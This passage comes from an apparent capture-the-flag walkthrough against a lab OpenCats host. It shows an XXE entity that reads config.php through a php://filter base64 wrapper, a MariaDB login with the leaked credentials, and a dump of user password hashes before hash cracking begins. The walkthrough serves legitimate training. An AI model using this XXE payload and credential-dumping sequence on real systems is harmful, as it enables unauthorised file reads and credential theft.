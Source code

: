 As you can see, we got the ‘passwd’ file information. Let’s read the ‘config’ file of OpenCats application. Use below entity to convert the ‘config.php’ file content to base64.

`<!DOCTYPE xxe [<!ENTITY xxe SYSTEM ‘`[`php://filter/convert.base64-encode/resource=config.php`](php://filter/convert.base64-encode/resource=config.php)`'>]>`

![Screen Shot 2021-09-20 at 04.06.46.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/6B011803-9577-49D8-B1B2-1490E80F5BE1/4B6E1482-9840-4DBB-BD22-017485ADF856_2/Screen%20Shot%202021-09-20%20at%2004.06.46.png)

As you can see, we got the encoded text. Now we need to decode it.

![Screen Shot 2021-09-20 at 04.08.00.png](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/6B011803-9577-49D8-B1B2-1490E80F5BE1/5ECB9823-44A6-4BF6-B5D2-93AA5CC7303A_2/Screen%20Shot%202021-09-20%20at%2004.08.00.png)

We got DB credentials from the config file. Let’s access Mysql using these creds.

```
⛩\> mysql -h empline.thm -u james -p -D opencats -A
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 94
Server version: 10.1.48-MariaDB-0ubuntu0.18.04.1 Ubuntu 18.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and s.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [opencats]> describe user;
+---------------------------+--------------+------+-----+---------+----------------+
| Field                     | Type         | Null | Key | Default | Extra          |
+---------------------------+--------------+------+-----+---------+----------------+
| user_id                   | int(11)      | NO   | PRI | NULL    | auto_increment |
| site_id                   | int(11)      | NO   | MUL | 0       |                |
| user_name                 | varchar(64)  | NO   |     |         |                |
| email                     | varchar(128) | YES  |     | NULL    |                |
| password                  | varchar(128) | NO   |     |         |                |

--------SNIP------
```

Now dump the password of users.

```
MariaDB [opencats]> select user_name,email,password from user;
+----------------+----------------------+----------------------------------+
| user_name      | email                | password                         |
+----------------+----------------------+----------------------------------+
| admin          | admin@testdomain.com | b67b5ecc5d8902ba59c65596e4c053ec |
| cats@rootadmin | 0                    | cantlogin                        |
| george         |                      | 86d0dfda99dbebc424eb4407947356ac |
| james          |                      | e53fbdb31890ff3bc129db0e27c473c9 |
+----------------+----------------------+----------------------------------+
4 rows in set (0.410 sec)
```

As we already know that ‘george’ is a user of host, let’s crack the hash of this user. But first find the hashing algorithm.
